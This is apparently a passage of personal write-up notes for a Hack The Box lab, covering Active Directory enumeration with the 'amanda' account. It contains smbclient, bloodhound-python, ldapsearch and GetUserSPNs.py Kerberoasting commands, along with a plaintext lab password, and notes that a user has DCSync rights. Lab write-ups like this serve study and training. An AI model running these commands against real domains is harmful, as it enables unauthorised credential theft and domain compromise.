 

## amanda cred enum

check the smbshare, /certenroll,  found some cert file.

not sure what is these file for.

```bash
smbclient //$tip/CertEnroll -U amanda --password=Ashare1972
```

![image-20221218010135011](./images/image-20221218010135011.png)



bloodhound.py enum and ldapsearch

```bash
bloodhound-python -c All -u amanda -p 'Ashare1972' -d htb.local -dc htb.local -ns $tip

ldapsearch -H ldap://$tip -D 'amanda' -w 'Ashare1972' -x -b "DC=htb,DC=local"  | tee ldap.amanda

GetUserSPNs.py htb.local/amanda:Ashare1972 -dc-ip $tip -request
```

found something, 

mrlky user has the dcsync permission. 

mrlky user was able to kerberoast.

![image-20221218010616203](./images/image-20221218010616203.png)
